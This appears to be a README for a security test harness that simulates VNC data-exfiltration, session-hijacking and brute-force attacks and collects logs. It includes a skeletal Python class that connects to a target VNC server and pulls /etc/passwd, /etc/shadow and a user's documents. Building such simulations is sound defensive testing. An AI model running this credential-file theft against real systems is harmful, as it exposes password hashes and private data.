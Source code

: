 # Test Harness Scripts for VNC Attack Simulation

This directory contains automated test harness scripts for simulating VNC data exfiltration attacks and collecting comprehensive logs.

## Script Categories

### Attack Simulation Scripts
- `vnc-attacks.py` - Main attack simulation framework
- `data-exfiltration.py` - Data exfiltration techniques
- `session-hijacking.py` - Session hijacking attacks
- `brute-force.py` - Password brute force attacks

### Log Collection Scripts
- `log-collector.py` - Centralized log collection
- `metrics-collector.py` - Performance metrics collection
- `network-monitor.py` - Network traffic monitoring

### Test Orchestration
- `test-runner.py` - Automated test execution
- `scenario-manager.py` - Attack scenario management
- `report-generator.py` - Test report generation

## Attack Scenarios

### Data Exfiltration Techniques
```python
#!/usr/bin/env python3
"""
VNC Data Exfiltration Attack Simulation
"""

import vnc_lib
import time
import logging

class DataExfiltrationAttack:
    def __init__(self, target_host, target_port=5900):
        self.target_host = target_host
        self.target_port = target_port
        self.vnc_client = vnc_lib.VNCClient()
        
    def simulate_file_transfer(self):
        """Simulate file transfer through VNC"""
        logging.info("Starting file transfer simulation")
        
        # Connect to VNC server
        self.vnc_client.connect(self.target_host, self.target_port)
        
        # Simulate file transfer
        files = ["/etc/passwd", "/etc/shadow", "/home/user/documents/"]
        for file_path in files:
            self.vnc_client.transfer_file(file_path)
            time.sleep(2)
            
        self.vnc_client.disconnect()
        
    def simulate_clipboard_exfiltration(self):
        """Simulate clipboard data exfiltration"""
        logging.info("Starting clipboard exfiltration simulation")
```